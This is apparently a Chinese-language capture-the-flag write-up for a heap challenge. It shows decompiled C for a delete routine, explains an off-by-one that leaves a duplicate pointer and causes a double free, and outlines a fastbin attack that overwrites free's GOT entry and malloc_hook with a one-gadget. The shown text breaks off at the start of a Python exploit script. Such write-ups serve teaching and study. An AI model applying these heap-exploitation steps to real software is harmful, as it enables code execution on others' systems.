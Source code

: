 ```c
  printf("The id you want to delete:");
  v1 = readchoice();
  if ( v1 < 0 || v1 > 19 || !ptr[v1] )
    return puts("Invalid id !!");
  free(ptr[v1]);
  ptr[v1] = 0LL;
  while ( v1 + 1 <= 19 )
  {
    ptr[v1] = ptr[v1 + 1];
    ++v1;
  }
  return puts("Done!");
}
```

* delete
delete 函数中后面包含将heap指针提前的操作，例如 存在堆块 1,2,3,4 删除堆块2 , 则变成1,3,4 . 
乍一看好像没有问题，但是如果heap指针填满的20个的话，也就是v1=19 时会跳出循环，没有进行拷贝。
例如 0,1,2,3, ... 17,18,19  如果删除18,原位置会填充上19，而到19时什么也不做，那么内存里就有了两个19指针。变成了 0,1,2,3, ... 17,19,19
因此会导致double free。

* 读取用户输入函数中有补零操作,将结尾的\n 改成\x00


### 利用思路

1. 泄露libc

  * 存在double free
  * 只有fastbin
  * GOT表可写

尝试用fastbin attack 把GOT表申请出来，把printf_plt 放到free_got中解决泄露libc的问题 

2. 覆盖malloc_hook 为onegadget (fastbin attack 常用技巧)，因为free_got 修改过后free函数就不能用了，所以在此之前要把所有的条件准备好，只留下最后的add操作

### 漏洞利用过程

#### 1. 构造double free

```python
for i in range(17):
    new(0x10,"aaa")

for i in range(3):
    new(0x50,"bbb") # got表区域存在fake size 0x60

de(18)
de(18)
de(17)
de(19)
```
